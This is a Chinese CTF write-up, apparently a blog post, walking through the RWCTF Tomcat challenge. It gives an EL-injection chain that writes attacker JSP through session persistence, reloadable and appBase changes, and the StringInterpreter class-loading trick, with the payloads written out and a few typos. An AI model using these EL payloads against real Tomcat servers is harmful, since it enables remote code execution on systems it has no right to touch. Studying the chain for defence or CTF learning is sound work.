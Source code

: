 # 从RWCTF中学习tomcat的操作

## 0x01 调试tomcat

首先创建一个maven的java项目，然后下载tomcat的源码，然后copy以下文件

参考链接：https://zhuanlan.zhihu.com/p/35454131

![image-20220127205922493](https://img.dem0dem0.top/images/image-20220127205922493.png)

![image-20220127205932989](https://img.dem0dem0.top/images/image-20220127205932989.png)

差多就这些，就可以启动一个tomcat的调试了。

## 0x02 解决题目

参考链接:https://mp.weixin.qq.com/s/QQ2xR32Fxj_nnMsFCucbCg

其中最重要的部分就像wp中写得一样，就是在于几个特殊字符的处理

```
& -> &amp;

< -> &lt;

' -> &#39;

> -> &#39;

" -> &quot;

( -> &#40;

) -> &#41;
```

最麻烦还是`<`和`()`

如果只是单纯地没有`<`我们可以使用`el`表达式来进行下一步的操作

```
${Runtiume.getRuntime().exec(param.c)}
```

如果单纯地没有`()`我们可以使用unicode来进行绕过。

看到大哥的思路，其实就是看大家从哪里入手。

- 如果是从jsp方面入手

  就要考虑是否支持el表达式一样动态执行的语法特性，或者有不依赖于`<`的特性

- 如果是从el表达式入手

  就是看是否支持编码绕过，或者可以获取内部的对象来实现一些骚操作的。二次解析执行

题解是:

```
在不使用圆括号的情况下，通过 EL 表达式的取值、赋值特性，获取到某些关键的 Tomcat 对象实例，修改它们的属性，造成危险的影响；
经过许久的尝试，最终我成功用第4个办法完成了利用，从 JSP EL 中自带解析的隐式对象出发，通过组合4个 EL 表达式链，完成了 RCE！
```

然后作者想到了使用session来进行操作，我们知道在tomcat正常退出的时候会将session写入到SESSION.SER文件，但这个参数其实是可以修改的。

```
{pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
```

然后再通过执行如下表达式，往 Session 里写数据：

```
${sessionScope[param.b]=param.c}
```

这样就可以做到让 Tomcat 正常停止服务时，往一个任意路径下的文件写入部分内容可控的字符串（这部分是不会有特殊字符过滤转义处理的）

```
?a=/opt/tomcat/webapps/ROOT/session.jsp&b=voidfyoo&c=%3C%25out.println(123)%3B%25%3E
```

这样就可以做到，想session.jsp中写入print(123);

### **修改 Context reloadable**

但是如何让tomcat关闭或者说，怎么触发写入session，现在是我们必须考虑的问题。`除了服务停止或者重启，还可以让部署的程序触发 reload 来做到。`

```
Context reloadable 配置为 true（默认是 false）；

/WEB-INF/classes/ 或者 /WEB-INF/lib/ 目录下的文件发生变化。
```

第一点可以通过el表达式直接修改，第二点是的意思是classes中有class文件修改或者lib目录有新的jar写入，即使这个jar有问题也可以被解析触发reload（因为有脏字符);

### **修改 appBase 目录**

上一步已经达到了上一步的目的就是reload(),但是jar有张数据，所以我们现在，要么把jar文件变合法，要么就是让他换个路劲读取文件来解析。

```
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}
```

这个appBase参数就是这个作用，所以当我们把这个更改的时候，他就会重新解析，程序就不会down。

所以综合的exp也就出来了。

```
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
${sessionScope[param.b]=param.c}
${pageContext.servletContext.classLoader.resources.context.reloadable=true}
${pageContext.servletContext.classLoader.resources.context.parent.appBase=param.d}
```

作者的预期解法。exp可以去上面的链接抄

## 0x03 **ASCII ZIP Exploit**

这个东西 我觉得是真的牛，有人早在8年前就研究出来了ASCII-ZIP的制作，也就是使用 [A-Za-z0-9] 范围内的字符去构造压缩数据。

- https://github.com/molnarg/ascii-zip
- https://github.com/Arusekk/ascii-zip

没看懂原理，但是我大为震惊。

然后据说解出这个题目的两个队伍参考上面的算法，自己构造了一个合理的jar，让脏字符变得合理了。。。。。

这个也是y4哥哥的解法差的那一步了，y4 yyds!

## 0x04 TRick

`${applicationScope}`我们可以看到许许多多的那个属性，可以看看哪些可以被我们使用。

这个时候就应该是对着每一个属性进行查文档了。

```
org.apache.jasper.compiler.StringInterpreter=org.apache.jasper.compiler.StringInterpreterFactory$DefaultStringInterpreter@4c781127
```

我们主要关注这一个。

```
Defines the interface for the String interpreter. This allows users to provide custom String interpreter implementations that can optimise String processing for an application by performing code generation for a sub-set of Strings.
```

```
the string representing the code that will be inserted into the source code for the Servlet generated for the JSP.
```

就是在解析jsp的时候他会被触发，也就是当我们访问jsp文件的时候，这个类就会被调用，如果这个类被赋值成我们的恶意类，就可以执行了。

![image-20220127230221732](https://img.dem0dem0.top/images/image-20220127230221732.png)

我们可以把这个赋值成我们的类然后写一个get的方法，获知直接代码块也可以。如何让jsp重新编译就不用多说了。写入一个，访问就可以了。

![image-20220127231353876](https://img.dem0dem0.top/images/image-20220127231353876.png)

这个jar的加载，`WEB-INF/tomcat-web.xml` 

而是借助修改 Tomcat Context WatchedResource 来触发：

WatchedResource - The auto deployer will monitor the specified static resource of the web application for updates, and will reload the web application if it is updated. The content of this element must be a string.



在 Tomcat 9 环境下，默认的 WatchedResource 包括：

- WEB-INF/web.xml
- WEB-INF/tomcat-web.xml
- ${CATALINA_HOME}/conf/web.xml

大概就是这个思路了，下面进行测试。https://tomcat.apache.org/tomcat-9.0-doc/config/context.html

![image-20220127231830734](https://img.dem0dem0.top/images/image-20220127231830734.png)

## 0x05 Test

### org.apache.jasper.compiler.StringInterpreter 加载恶意类

首先写入el表达

```
${applicationScope[param.a]=param.b}
```

在web-inf/lib下面写入jar文件。

然后在`WatchedResource`插入注释或者新建文件。然后再上传一个jsp任意访问即可。

![image-20220127233234668](https://img.dem0dem0.top/images/image-20220127233234668.png)

### Tomcat下/META-INF/lib中被加载的jar，为什么可以在其/METAINF/resources/下直接写jsp可以直接访问执行

![image-20220127235157954](https://img.dem0dem0.top/images/image-20220127235157954.png)

可以看到其中需要加入到那个路劲中的一些来源，可以通过这些来达到和jsp文件的直接访问。
